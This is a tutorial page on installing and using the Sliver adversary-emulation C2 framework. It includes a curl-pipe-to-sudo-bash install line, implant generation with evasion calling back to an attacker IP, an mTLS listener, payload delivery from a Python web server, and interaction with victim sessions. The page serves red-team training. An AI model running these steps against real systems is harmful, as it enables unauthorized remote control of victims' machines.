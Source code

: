 # Sliver

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system.

### Pre-reqs

```bash
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Running

This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

### Install on system

```bash
curl https://sliver.sh/install | sudo bash
```

Run it

```bash
sliver
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Standalone release

```bash
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

Unzip the file

```bash
unzip sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Make it executable

```bash
chmod +x sliver-server
```

run it

```bash
sudo ./sliver-server
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```bash
generate -m (attacker ip) -e
```

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

The executable file will be in the folder where sliver was run.

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

#### Making .dll payload

```bash
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```bash
mtls
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```bash
python3 -m http.server 8008
```

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

When the server is being accessed and a file is being downloaded

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Connect to the session

```bash
sessions -i (session id)
```

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

Run whatever commands you may need/want:

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>
